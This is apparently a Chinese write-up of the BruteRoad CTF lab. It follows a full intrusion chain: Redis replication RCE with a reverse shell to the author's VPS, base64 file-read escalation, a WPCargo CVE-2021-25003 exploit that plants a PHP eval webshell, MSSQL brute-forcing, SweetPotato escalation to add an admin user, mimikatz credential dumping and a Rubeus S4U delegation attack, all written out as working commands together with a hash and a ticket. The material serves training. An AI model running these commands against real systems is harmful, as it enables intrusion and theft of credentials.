---
title: "春秋云镜BruteRoad"
date: 2025-11-06T10:22:16+08:00
summary: "考点: redis主从复制rce base64命令提权 sweetpotato提权 约束性委派"
url: "/posts/春秋云镜BruteRoad/"
categories:
  - "春秋云镜"
tags:
  - "BruteRoad"
draft: false
---



# 考点

- redis主从复制rce
- base64命令提权
- sweetpotato提权
- 约束性委派

# flag1

依旧扫端口

```bash
root@VM-16-12-ubuntu:/opt# ./fscan -h 39.99.134.81 -p 1-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
39.99.134.81:21 open
39.99.134.81:22 open
39.99.134.81:80 open
39.99.134.81:6379 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://39.99.134.81       code:200 len:4833   title:Welcome to CentOS
[+] ftp 39.99.134.81:21:anonymous 
   [->]pub
[+] Redis 39.99.134.81:6379 unauthorized file:/usr/local/redis/db/dump.rdb
已完成 4/4
[*] 扫描结束,耗时: 41.647936648s
```

发现开启了一个21和6379

anonymous表示该FTP服务允许匿名登录，并且还扫出来一个pub目录，尝试登录一下

```bash
┌──(root㉿kali)-[/home/kali]
└─# lftp -u anonymous ftp://39.99.134.81
密码: 
lftp anonymous@39.99.134.81:~> ls                  
drwxr-xr-x    2 0        0            4096 Jun 09  2021 pub
lftp anonymous@39.99.134.81:/> set ftp:charset GBK
lftp anonymous@39.99.134.81:/> ls
drwxr-xr-x    2 0        0            4096 Jun 09  2021 pub
lftp anonymous@39.99.134.81:/> ls pub
lftp anonymous@39.99.134.81:/>  
```

发现是空的，那看看redis

### redis主从复制RCE

unauthorized表示 **Redis 实例允许未认证访问**，访问一下

```bash
redis-cli -h 39.99.134.81
info
```



当然redis也可以直接读取数据库文件

```bash
redis-cli -n [数据库编号] GET [键名]
```

版本是5.0.12，可以打redis主从复制RCE https://github.com/n0b0dyCN/redis-rogue-server

但是特别容易打崩，并且记得把服务器的21000端口打开



rhost是题目地址，lhost是自己vps的地址，执行成功后会问你想要正向shell还是方向shell，然后你选r就是反弹shell，然后后面输入你想弹的地址与端口即可

在vps上运行脚本

```bash
python3 redis-rogue-server.py --rhost 39.99.134.81 --lhost [vpsip]
r
[lhost]
9999

vps上监听9999端口
nc -lvnp 9999
```





sh不太方便，做个交互式bash

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```



然后需要提权，SUDO提权不行，看看suid位文件提权

```bash
find / -perm -u=s -type f 2>/dev/null
```

| 特性         | SUID 位文件                          | sudo -l  命令                       |
| ------------ | ------------------------------------ | ----------------------------------- |
| 作用         | 允许用户以文件所有者的权限执行程序   | 查看当前用户能通过 sudo  执行的命令 |
| 权限提升方式 | 运行 SUID 程序时临时获得所有者权限   | 通过 sudo  显式提权执行命令         |
| 持久性       | 只要文件 SUID 位存在，每次执行都生效 | 需每次手动输入 sudo                 |

查看SUDO命令之后退出发现又得重新打redis了，并且需要重置靶机



### base64提权

看到一个base64，base64可以提权读文件https://gtfobins.github.io/gtfobins/base64/

先find找一下flag

```bash
find / -name "flag"
```



```bash
[redis@centos-web01 /]$ base64 "/home/redis/flag/flag01" | base64 -d
base64 "/home/redis/flag/flag01" | base64 -d
 ██████                    ██              ██  ███████                           ██
░█░░░░██                  ░██             █░█ ░██░░░░██                         ░██
░█   ░██  ██████ ██   ██ ██████  █████   █ ░█ ░██   ░██   ██████   ██████       ░██
░██████  ░░██░░█░██  ░██░░░██░  ██░░░██ ██████░███████   ██░░░░██ ░░░░░░██   ██████
░█░░░░ ██ ░██ ░ ░██  ░██  ░██  ░███████░░░░░█ ░██░░░██  ░██   ░██  ███████  ██░░░██
░█    ░██ ░██   ░██  ░██  ░██  ░██░░░░     ░█ ░██  ░░██ ░██   ░██ ██░░░░██ ░██  ░██
░███████ ░███   ░░██████  ░░██ ░░██████    ░█ ░██   ░░██░░██████ ░░████████░░██████
░░░░░░░  ░░░     ░░░░░░    ░░   ░░░░░░     ░  ░░     ░░  ░░���░░░   ░░░░░░░░  ░░░░░░ 


flag01: flag{fbfba5b8-cda6-454b-8f78-a22ec312e96d}

Congratulations! ! !
Guess where is the second flag?
```

# 内网穿透

可以把stowaway和fscan放在自己的vps网页根目录，然后wget去下载

```bash
cd /tmp

wget http://vps/fscan
wget http://vps/linux_x64_agent

chmod +x *
```

### fscan内网扫描

先看一下ip地址，常规的ifconfig命令没用，可以使用netstat -ano或者hostname -i来查看



内网ip是172.22.2.7，fscan扫一下内网ip

```bash
[redis@centos-web01 tmp]$ ./fscan -h 172.22.2.0/24
./fscan -h 172.22.2.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.2.34     is alive
(icmp) Target 172.22.2.7      is alive
(icmp) Target 172.22.2.3      is alive
(icmp) Target 172.22.2.18     is alive
(icmp) Target 172.22.2.16     is alive
[*] Icmp alive hosts len is: 5
172.22.2.7:80 open
172.22.2.7:22 open
172.22.2.7:21 open
172.22.2.3:88 open
172.22.2.34:139 open
172.22.2.16:135 open
172.22.2.34:135 open
172.22.2.3:135 open
172.22.2.16:80 open
172.22.2.18:80 open
172.22.2.18:22 open
172.22.2.7:6379 open
172.22.2.16:1433 open
172.22.2.16:445 open
172.22.2.18:445 open
172.22.2.3:445 open
172.22.2.34:445 open
172.22.2.16:139 open
172.22.2.18:139 open
172.22.2.3:139 open
[*] alive ports len is: 20
start vulscan
[*] NetInfo 
[*]172.22.2.3
   [->]DC
   [->]172.22.2.3
[*] NetInfo 
[*]172.22.2.16
   [->]MSSQLSERVER
   [->]172.22.2.16
[*] WebTitle http://172.22.2.7         code:200 len:4833   title:Welcome to CentOS
[*] NetInfo 
[*]172.22.2.34
   [->]CLIENT01
   [->]172.22.2.34
[*] NetBios 172.22.2.34     XIAORANG\CLIENT01             
[*] OsInfo 172.22.2.16  (Windows Server 2016 Datacenter 14393)
[*] WebTitle http://172.22.2.16        code:404 len:315    title:Not Found
[*] NetBios 172.22.2.3      [+] DC:DC.xiaorang.lab               Windows Server 2016 Datacenter 14393
[*] NetBios 172.22.2.18     WORKGROUP\UBUNTU-WEB02        
[*] OsInfo 172.22.2.3   (Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.2.16     MSSQLSERVER.xiaorang.lab            Windows Server 2016 Datacenter 14393
[+] ftp 172.22.2.7:21:anonymous 
   [->]pub
[*] WebTitle http://172.22.2.18        code:200 len:57738  title:又一个WordPress站点
已完成 20/20
[*] 扫描结束,耗时: 12.83299473s
```

- 172.22.2.7 已拿下
- 172.22.2.34   XIAORANG\CLIENT01
- 172.22.2.16   MSSQLSERVER.xiaorang.lab
- 172.22.2.3     DC:DC.xiaorang.lab
- 172.22.2.18   WORKGROUP\UBUNTU-WEB02 

### 搭建隧道

然后我们搭建代理

```bash
./linux_x64_admin -l 2334 -s 123

./linux_x64_agent -c 124.223.25.186:2334 -s 123 --reconnect 8

use 0
socks 3333

sudo vim /etc/proxychains4.conf
```

Windows用proxifier连接代理

# flag2

### WordPress插件nday

访问`http://172.22.2.18`是一个WordPress站点



用wpscan扫一下

**WPScan** 是一款专门用于检测 **WordPress** 网站安全问题的命令行工具

```bash
wpscan --update

proxychains4 wpscan --help

proxychains4 wpscan --url http://172.22.2.18/
```





发现WPCargo插件是6.x.x版本，存在一个nday的RCE https://github.com/biulove0x/CVE-2021-25003

```bash
E:\脚本和字典\poc库\CVE-2021-25003\CVE-2021-25003-main>python WpCargo.py --help

############################################
# @author : biulove0x                      #
# @name   : WP Plugins WPCargo Exploiter   #
# @cve    : CVE-2021-25003                 #
############################################

usage: WpCargo.py [-h] [-t example.com] [-l target.txt]

CVE-2021-25003 [ WPCargo < 6.9.0 - Unauthenticated RCE ]

options:
  -h, --help      show this help message and exit
  -t example.com  Single target
  -l target.txt   Multiple target
```

传`-t`参数就行

```bash
E:\脚本和字典\poc库\CVE-2021-25003\CVE-2021-25003-main>python WpCargo.py -t http://172.22.2.18/

############################################
# @author : biulove0x                      #
# @name   : WP Plugins WPCargo Exploiter   #
# @cve    : CVE-2021-25003                 #
############################################

[-] http://172.22.2.18/wp-content/wp-conf.php => Uploaded!
```

访问一下`http://172.22.2.18/wp-content/wp-conf.php`



那写个木马

```bash
?1=system
2=echo "<?php+@eval(\$_POST[1]);?>" > /var/www/html/a.php
```



写了之后用蚁剑连一下

在 `wp-config.php`中找到配置文件中有数据库账号密码



数据操作中连一下



看到一个flaagggghere库中有flag02



# flag3

然后S0meth1ng_y0u_m1ght_1ntereSted里面还有一个密码表



导出为txt，然后用密码爆破172.22.2.16  ，因为他是mssql服务器，常用端口是1433

### 弱口令爆破mssql密码

https://github.com/shack2/SNETCracker/releases 用工具进行爆破

记得给这个app配置一下代理，不然一直打不通



也可以用fscan去爆破

```bash
.\fscan.exe -h 172.22.2.16 -m mssql -pwdf 1.txt
[+] mssql:172.22.2.16:1433:sa ElGNkOiC
```

然后用MDUT连接，激活一下组件传命令试试



很明显权限是不够的，传个甜土豆提权

### 甜土豆提权

传个甜土豆提权后执行命令



### 添加新用户并RDP

查看端口开放情况

```bash
C:/迅雷下载/SweetPotato.exe -a "netstat -ano"
```

发现3389端口开放，那我们创建一个用户RDP上去

```bash
C:/迅雷下载/SweetPotato.exe -a "net user test1 whoami666! /add"
C:/迅雷下载/SweetPotato.exe -a "net localgroup administrators test1 /add"
```

然后在管理员目录拿到flag3



```bash'
8""""8                           88     8"""8                    
8    8   eeeee  e   e eeeee eeee 88     8   8  eeeee eeeee eeeee 
8eeee8ee 8   8  8   8   8   8    88  88 8eee8e 8  88 8   8 8   8 
88     8 8eee8e 8e  8   8e  8eee 88ee88 88   8 8   8 8eee8 8e  8 
88     8 88   8 88  8   88  88       88 88   8 8   8 88  8 88  8 
88eeeee8 88   8 88ee8   88  88ee     88 88   8 8eee8 88  8 88ee8 


flag03: flag{06862f4f-d82a-4a12-8fcd-81aefb716fa2}
```

# flag4

systeminfo命令用来显示计算机的详细配置信息

查看systeminfo发现我们在域环境里面



### 约束委派攻击

传个猕猴桃mimikatz.exe上去并用管理员身份运行

https://blog.csdn.net/weixin_40412037/article/details/113348310教程

Mimikatz`（中文俗称“猕猴桃”）`是一款著名的 Windows 安全测试工具，主要用于 提取 Windows 系统中的敏感凭据（如明文密码、NTLM Hash、Kerberos 票据等）。

```bash
提升权限 命令：privilege::debug
提取登录凭据 命令 sekurlsa::logonpasswords
```

然后慢慢翻



约束委派攻击：https://forum.butian.net/share/1591

看到一个`MSSQLSERVER$`用户，MSSQLSERVER 配置了到域控的约束委派，可以通过 S4U 伪造高权限 ST 拿下域控，这里只有他的NTLM哈希可用，我们用Rubeus申请访问自身的服务票据，先把哈希保存下来

```bash
87ea4bffea233483d05f71b897ff2ded
```

约束性委派攻击的关键就是**获得可转发的服务票据ST**

获取根据约束性委派的执行过程可知，只要**控制配置约束性委派服务的机器，并获得了它的密码**，那么我们就可以劫持这台主机的

kerberos请求过程，最终获得任意用户权限的ticket

利用条件：

1. 需要Administrator权限
2. 目标机器账户配置了约束性委派

用Rubeus申请访问自身的服务票据

**Rubeus** 是一个由安全研究者 Harmj0y（来自 GhostPack 团队）开发的 **Windows Kerberos 攻击与测试工具**。

```bash
.\Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:1400900feabf5d233a9c1ec534105274 /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```

- rc4：使用 RC4-HMAC认证（即 NTLM 哈希）



拿到ticket凭据

```bash
doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE04fMkU+JaVJH2a0E7c8aoAYZXUEIr5fz8lAeFwBIhm4gtUGEqLr97ugt2NReOWLo44IRvWL2r5JMs3Tc1JFN/QSTima+yv4By1J+DJbQk+mfobr95e0jaCUDY6rjsbynEEscDMW6DxNHmF4ZxaOUxBIykTFe+i9E+UxA64K39krC3gLV0R6yNk50WoTjFnWjhGZz5YwxLYimiK2LRfnA8XkyWIBE4yLdZ+gaSzPvgnubJYKtxBxY9KbM2uAfl6bI+d/2mpRDVLRgYdRz4mudhXsFevYNmiwkODb9dU1SaO2pET8zwLWCymNSz9/WbiSBb0Nu9GSaYaFBIH9bUmca3pu8Ko213quEotgSZ5lGeJkogM8dk03ucsw9XH7a5lsuLUdHRYIG6VyZ1GH1s9zR1KanRrmoyxZCI/oNG6+FjToFWE+Cw4xDmfWbFBEcrxcDNwQIlwZ2CVfNcWfQvRFbtSPF8BsQYKyxRYQNfP1i4qdmFOh9IWt6RtnsuY7mGxQooaq+CtC6QvSJPGGwVfpVNCl1nNrb8o9UtNJAWBAFRrioIttm/AOcinGtXu8bB/S90/9gxVuz59jL6Az/aftbijCb0gS47RbphmtlxqJsHh/HDeGW7sxZIq8mLHv3E4d5OEQC4uhlIK3OACmAPfyglcZN536fWW3VprnBP8+izsmPUtFlxTv5toIQbKVCZAW2pfqRoviGBklexB0FHY2DgiYCG7B3s91z4armKJjcNDCXGSgTlTIkPzhYNE5bN6uDCe4tCk0XuUzpJ2RuuQj/NKEealwUHtyogq1Q1tsnnRTYkbcaBnp8knQkJvu2fCmIONEIaGPvboDFfsGlUQATJnJJJzlFoSn0WWUhuvO7v+fEkRKxoQ1ZVHHD/0tWe44QUvVqk4HDaLhv0MIEDJp7dXdyxkxRGDEY5qBzWnn/3KZBcoggxZp0xjrPWzQj8TBqZoVKMiWjKxwOMkxkyNeTNkpImBdGy8vV99NCL+RkGCEU7SIBWyE6hR2sjq7NhVKn4GQh2A7tjpOe+1pNF5//DX0fbV6Mx5pr6vp1dEwDuDQildwHGn6JJ/d7Z1ZQJSz/938iMIBVceuh8NIhObRFCv4YmJ5NFqBNOtulBbMbFLnrPJHf+kM1BLVzXYgquIVKbXc7G6tAIXFt3m6VFBH5V9O5IfAIp+qjHVorPZyOoFUx5LYc/wHuer2X7F6xL9ic8M5Iebv7x5YhBboJpZma+ZRQDSc1E8oLyW3mKzd3vB5t+sgdmS1wJMHzhvBw4UoOpClHtIUiP8G2JW4lQnBdjP/T9vfe8p02fxM7y+5+XED5wpabT1LIPNXb4Q8tkH8W5FISiMToDN6s2ESu8g0hk/4qonMZD0Q+ND/WaQxkhJu2uCZTEXa+vnh72WXXM6v4CDCl+Mi21Ppu90bmjns0/lAutKMDtrsFUIzwrbw2SXs9Ww8LRGnFaX6pEejlyjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBABy82O7WOHIrl6obfPSQ8BoQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDI1MTEwNjA0MjYzNFqmERgPMjAyNTExMDYxNDI2MzRapxEYDzIwMjUxMTEzMDQyNjM0WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==
```

然后利用票据打委派攻击

```bash
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:上面抓到的服务票据
```



然后直接读flag就行

```bash
type \\DC.xiaorang.lab\C$\Users\Administrator\flag\flag04.txt
```



关于利用机器哈希值结合Rubeus的约束委派攻击可以参考


